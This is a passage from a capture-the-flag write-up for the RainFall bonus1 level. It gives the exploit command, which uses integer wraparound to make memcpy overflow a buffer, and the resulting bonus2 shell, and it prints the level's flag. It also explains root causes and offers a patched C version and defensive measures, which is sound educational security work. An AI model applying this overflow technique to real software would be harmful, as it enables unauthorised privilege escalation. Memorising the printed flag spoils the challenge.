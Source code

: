 ## Complete Exploit Execution

### Command Execution
```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users)
```

### Success Indicators
- **Shell Spawn**: Interactive shell obtained
- **Privilege Escalation**: EUID elevated to bonus2 (2012)
- **Flag Access**: Successfully read bonus2 password file

## Security Implications

### Root Causes
1. **Type Confusion**: Mixing signed/unsigned integer operations
2. **Insufficient Validation**: Only checking upper bound, not overflow conditions  
3. **Unsafe Memory Operations**: User-controlled size parameter to memcpy()
4. **Magic Value Logic**: Hardcoded comparison creates exploitation target

### Attack Vector Classification
- **CWE-190**: Integer Overflow or Wraparound
- **CWE-120**: Buffer Copy without Checking Size of Input  
- **CWE-681**: Incorrect Conversion between Numeric Types

### Modern Mitigations
```c
// Secure implementation example:
if (ac != 3) return 1;
unsigned int n = (unsigned int)atoi(av[1]);
if (n > 9) return 1;                          // Proper bounds check
unsigned int size = n * 4;
if (size < n || size > sizeof(buffer)) return 1;  // Overflow check
memcpy_s(buffer, sizeof(buffer), av[2], size);    // Safe copy
```

### Defensive Strategies
- **Input Sanitization**: Validate both range and overflow conditions
- **Type Consistency**: Use consistent signed/unsigned types throughout
- **Safe Functions**: Employ bounds-checked memory operations
- **Compiler Protection**: Enable integer overflow detection (-ftrapv, -fsanitize=integer)

## Flag Retrieved
```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```